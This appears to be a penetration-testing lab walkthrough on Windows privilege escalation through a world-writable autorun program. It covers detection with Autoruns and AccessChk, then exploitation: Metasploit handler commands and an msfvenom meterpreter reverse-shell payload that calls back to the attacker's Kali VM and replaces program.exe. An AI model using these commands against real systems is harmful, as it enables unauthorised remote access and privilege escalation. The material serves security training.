 # Escalation Path Registry

## Autorun

Autoruns refer to programs, scripts, or services that automatically execute when Windows starts or when a device (like a USB) is plugged in.

### Detection of Auto runs programs 

***Windows VM***

**Run Autoruns**:

Open *Command Prompt* and execute `Autoruns64.exe`.

```
**C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe**
```

Navigate to the *‘Logon’ tab* to check programs that auto-start at user login.

**Identify Vulnerable Entry**:

"My Program" is set to run automatically from:

```
C:\Program Files\Autorun Program\program.exe
```

**Check File Permissions**:

Use *AccessChk* to inspect permissions:
   
```
accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

The output shows **"Everyone" has FILE_ALL_ACCESS**, meaning **any user (even non-admins) can modify** `program.exe`.

**Exploitation Possibility**:

- Since `program.exe` runs at *logon*, an attacker can *replace it with a malicious file* (e.g., a reverse shell).

- Upon restart/login, the system will execute the attacker’s payload, potentially leading to **privilege escalation**.

### Exploitations

**Kali VM**

Open command prompt and type: 

```
msfconsole
```

In Metasploit (msf > prompt) type: 

```
use multi/handler
```  

In Metasploit (msf > prompt) type:

```
set payload windows/meterpreter/reverse_tcp
```  

In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]
```

In Metasploit (msf > prompt) type: 

```
run
```

Open an additional command prompt and type: 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe  
```

Copy the generated file, program.exe, to the Windows VM.

**Windows VM**

1. Place program.exe in ‘*C:\Program Files\Autorun Program*’.  
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

**Kali VM**

1. Wait for a new session to open in Metasploit.  
2. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid`